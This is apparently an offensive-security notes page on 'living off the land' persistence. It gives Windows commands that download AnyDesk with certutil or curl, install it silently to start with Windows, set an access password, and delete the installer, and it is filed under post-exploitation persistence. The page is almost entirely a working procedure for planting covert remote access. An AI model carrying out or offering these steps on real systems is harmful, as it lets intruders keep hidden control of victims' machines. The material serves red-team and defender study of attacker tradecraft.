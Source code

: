 # Living off the Land

## 01 - Download AnyDesk Installer

```
C:\> certutil.exe -urlcache -split -f https://download.anydesk.com/AnyDesk.exe %LOCALAPPDATA%\Temp\Anydesk.exe

C:\> curl.exe -o %LOCALAPPDATA%\Temp\Anydesk.exe https://download.anydesk.com/AnyDesk.exe
```

## 02 - Install AnyDesk

```
C:\> %LOCALAPPDATA%\Temp\Anydesk.exe --start-with-win --slient --install %LOCALAPPDATA%\AnyDesk
```

## 03 - Set Password

```
C:\> echo <password> | %LOCALAPPDATA%\AnyDesk\AnyDesk.exe --set-password
```

## 04 - Delete Anydesk

```
C:\> del %LOCALAPPDATA%\Temp\anydesk.exe
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/Windows/Host Persistence/Remote Login/Third Party/Remote Monitoring and Management/AnyDesk/Malware Development/Scripting]]

### Huntress

- [Huntress: RATs! Remote Management Software from the Hacker’s Perspective](https://www.huntress.com/blog/rats-remote-management-software-from-the-hackers-perspective)